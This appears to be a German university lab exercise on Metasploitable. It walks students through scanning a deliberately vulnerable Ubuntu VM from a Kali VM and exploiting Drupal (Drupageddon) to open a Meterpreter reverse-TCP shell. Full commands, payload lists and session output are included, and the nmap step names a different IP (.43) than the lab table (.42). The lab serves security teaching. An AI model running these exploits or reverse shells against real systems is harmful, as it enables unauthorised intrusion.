 # Informationssicherheit: Übung Metasploitable

Laden Sie das Vagrantfile von GitHub herunter und starten Sie die Maschinen.

```console
$ git clone https://github.com/bladewing/infosec-uebungen-metasploit.git
$ cd infosec-uebungen-metasploit
$ vagrant up
```

Die Maschinen werden heruntergeladen und gestartet. Dies kann einige Zeit in Anspruch nehmen.

Die Maschinen erhalten folgende IP-Adressen:

| Maschine | IP            |
| -------- | ------------- |
| ub1404   | 192.168.56.42 |
| eve      | 192.168.56.41 |

In der Maschine ```ub1404``` ist eine ältere Version von Ubuntu installiert, die mehrere Sicherheitslücken aufweist. 
In der Maschine ```eve``` ist Kali Linux installiert, das Metasploit und weitere Werkzeuge enthält.

Führen Sie ```nmap``` auf eve aus, um die offenen Ports zu ermitteln.

```console
[vagrant@eve ~]$ sudo nmap -sV -O 192.168.56.43 -p0-65535
```

Eine Liste der offenen Ports wird angezeigt. Zudem werden die gefundenen Dienste und Betriebssysteme angezeigt.

Starten Sie jetzt Metasploit auf eve.

```console
[vagrant@eve ~]$ msfconsole
```

Suchen Sie nach einem Exploit für die verfügeberen Services.

```console
msf6 > search <service>
```

Wählen Sie einen Exploit aus und konfigurieren Sie ihn.

```console
msf6 > use <exploit>
msf6 exploit(<exploit>) > show options
msf6 exploit(<exploit>) > set RHOSTS <IP>
msf6 exploit(<exploit>) > check
msf6 exploit(<exploit>) > show payloads
msf6 exploit(<exploit>) > set payload <payload>
msf6 exploit(<exploit>) > exploit
```

Experimentieren Sie mit den verschiedenen Optionen und Payloads.

## Beispiel

```console
msf6 > use exploit/multi/http/drupal_drupageddon
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(multi/http/drupal_drupageddon) > show options

Module options (exploit/multi/http/drupal_drupageddon):

    Name       Current Setting  Required  Description
    ----       ---------------  --------  -----------
    Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
    RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/ using-metasploit.html
    RPORT      80               yes       The target port (TCP)
    SSL        false            no        Negotiate SSL/TLS for outgoing connections
    TARGETURI  /                yes       The target URI of the Drupal installation
    VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

    Name   Current Setting  Required  Description
    ----   ---------------  --------  -----------
    LHOST  10.0.2.15        yes       The listen address (an interface may be specified)
    LPORT  4444             yes       The listen port


Exploit target:

    Id  Name
    --  ----
    0   Drupal 7.0 - 7.31 (form-cache PHP injection method)



View the full module info with the info, or info -d command.

msf6 exploit(multi/http/drupal_drupageddon) > set RHOSTS 192.168.56.42
RHOSTS => 192.168.56.42
msf6 exploit(multi/http/drupal_drupageddon) > set targeturi /drupal/
targeturi => /drupal/
msf6 exploit(multi/http/drupal_drupageddon) > show payloads

Compatible Payloads
===================

    #   Name                                        Disclosure Date  Rank    Check  Description
    -   ----                                        ---------------  ----    -----  -----------
    0   payload/cmd/unix/bind_aws_instance_connect                   normal  No     Unix SSH Shell, Bind Instance Connect (via AWS API)
    1   payload/generic/custom                                       normal  No     Custom Payload
    2   payload/generic/shell_bind_aws_ssm                           normal  No     Command Shell, Bind SSM (via AWS API)
    3   payload/generic/shell_bind_tcp                               normal  No     Generic Command Shell, Bind TCP Inline
    4   payload/generic/shell_reverse_tcp                            normal  No     Generic Command Shell, Reverse TCP Inline
    5   payload/generic/ssh/interact                                 normal  No     Interact with Established SSH Connection
    6   payload/multi/meterpreter/reverse_http                       normal  No     Architecture-Independent Meterpreter Stage, Reverse HTTP Stager (Multiple Architectures)
    7   payload/multi/meterpreter/reverse_https                      normal  No     Architecture-Independent Meterpreter Stage, Reverse HTTPS Stager (Multiple Architectures)
    8   payload/php/bind_perl                                        normal  No     PHP Command Shell, Bind TCP (via Perl)
    9   payload/php/bind_perl_ipv6                                   normal  No     PHP Command Shell, Bind TCP (via perl) IPv6
    10  payload/php/bind_php                                         normal  No     PHP Command Shell, Bind TCP (via PHP)
    11  payload/php/bind_php_ipv6                                    normal  No     PHP Command Shell, Bind TCP (via php) IPv6
    12  payload/php/download_exec                                    normal  No     PHP Executable Download and Execute
    13  payload/php/exec                                             normal  No     PHP Execute Command
    14  payload/php/meterpreter/bind_tcp                             normal  No     PHP Meterpreter, Bind TCP Stager
    15  payload/php/meterpreter/bind_tcp_ipv6                        normal  No     PHP Meterpreter, Bind TCP Stager IPv6
    16  payload/php/meterpreter/bind_tcp_ipv6_uuid                   normal  No     PHP Meterpreter, Bind TCP Stager IPv6 with UUID Support
    17  payload/php/meterpreter/bind_tcp_uuid                        normal  No     PHP Meterpreter, Bind TCP Stager with UUID Support
    18  payload/php/meterpreter/reverse_tcp                          normal  No     PHP Meterpreter, PHP Reverse TCP Stager
    19  payload/php/meterpreter/reverse_tcp_uuid                     normal  No     PHP Meterpreter, PHP Reverse TCP Stager
    20  payload/php/meterpreter_reverse_tcp                          normal  No     PHP Meterpreter, Reverse TCP Inline
    21  payload/php/reverse_perl                                     normal  No     PHP Command, Double Reverse TCP Connection (via Perl)
    22  payload/php/reverse_php                                      normal  No     PHP Command Shell, Reverse TCP (via PHP)

msf6 exploit(multi/http/drupal_drupageddon) > set payload 18
payload => php/meterpreter/reverse_tcp
msf6 exploit(multi/http/drupal_drupageddon) > set lhost 192.168.56.41
lhost => 192.168.56.41
msf6 exploit(multi/http/drupal_drupageddon) > run

[*] Started reverse TCP handler on 192.168.56.41:4444 
[*] Sending stage (39927 bytes) to 192.168.56.42
[*] Meterpreter session 3 opened (192.168.56.41:4444 -> 192.168.56.42:60828) at 2024-05-15 23:56:49 +0000

meterpreter > 
```